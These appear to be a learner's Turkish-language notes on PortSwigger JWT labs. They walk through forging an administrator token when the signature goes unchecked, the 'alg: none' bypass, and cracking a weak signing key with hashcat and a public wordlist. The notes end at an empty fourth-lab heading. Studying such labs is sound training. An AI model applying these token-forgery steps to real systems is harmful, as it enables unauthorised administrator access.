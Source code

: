 # LAB 1 :

wiener | peter olarak giriş yap 
`/admin` paneli var burada `administrator`'a bir panel açılmış 
sessiondaki JWT tokenine bak

```jwt
eyJraWQiOiJmYTkzNDdkNi1lNGNlLTQ5MjQtOWNjZC1kZTJiY2I1ZmExODEiLCJhbGciOiJSUzI1NiJ9.eyJpc3MiOiJwb3J0c3dpZ2dlciIsImV4cCI6MTc0NzE1MzI4OCwic3ViIjoiYWRtaW5pc3RyYXRvciJ9.CbRy0ehUOur7XKMXLvVeaayPE9eEgSNGLA7Og2nB6xg5AxWJLG4_O9Qw5qNCZY1zBnxWe89ZwK8Q4u9EfYXjOMuCJ8dpEDvVeKkk3DgCLAfckL9MDf_MvxqXg4BPZyQ6JsWytysbAEySBpYGYkFNQDtqleDA0_z5jCsMrvuzlsE5Os9w6Kpds9lOzPcvhhQpehn6saJkuDYM44DvfnuCNVta06Ry5huC8v9tEDdDDRblcjogiIpi_RnT1u6z3-toGqCz8UeEzhdrYrLMyhguaLJqsGHug9u5g8_yWF3G10YQ2TnDMoLcSNvIBLcc_V4ZVMOSxWL5JlLsL1PR3W4ZjA
```

tokende payload kısmı 

```
{
  "iss": "portswigger",
  "exp": 1747153288,
  "sub": "wiener"
}
```
şeklinde 
```
{
  "iss": "portswigger",
  "exp": 1747153288,
  "sub": "administrator"
}
```
olarak değiştir çünkü `verify` işlemi yapılmamış.


# LAB 2 alg: none

bazı serverlarda alg none olarak belirlemek signature gerektirmeden sisteme giriş yapabilmemizi sağlar.

header kısmındaki alg none girerek ve signature kısmını boş bırakarak (payload kısmını yine `.` kullanarak bitirmen gerekir.)

## LAB 3 weak sign key

sign key zayıf bir değer girilirse brute-force atabilirsin.
https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list

```powershell
hashcat -a 0 -m 16500 <jwt> <wordlist>
```
ile şifreyi kırdık ve şifre : `secret1`  bu şekilde tekrar json tokenimizi bu şifre üzerinden üreteceğiz 

Burpde : 
![[Pasted image 20250513210938.png]]
şeklinde değiştirilebilir. burada alg: none ataklar da varmış


## LAB 4 